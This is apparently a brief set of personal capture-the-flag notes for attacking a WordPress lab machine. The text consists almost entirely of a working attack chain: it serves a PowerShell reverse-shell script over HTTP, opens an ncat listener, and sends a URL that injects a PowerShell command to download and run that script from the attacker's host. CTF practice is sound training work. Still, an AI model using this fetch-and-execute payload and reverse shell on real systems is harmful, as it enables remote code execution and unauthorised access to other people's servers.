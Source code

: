 ## haha yes shitty wordpress site go brrrrrrrrrrrrrrrrrrrrrrrrrr

# 1: host http server for target to get exploit ps1 (might need to change host in ps1 file).
sudo python3 -m http.server 80

# 2. create ncat listener for shell
sudo rlwrap nc -nvlp 443

# 3. go to the updates url we went to with the sqli injection and start that script (update ip if needed)
http://10.10.10.167/updates.php?c=powershell%20IEX(IWR%20http://10.10.14.39/Invoke-PowerShellTcp.ps1%20-UseBasicParsing)
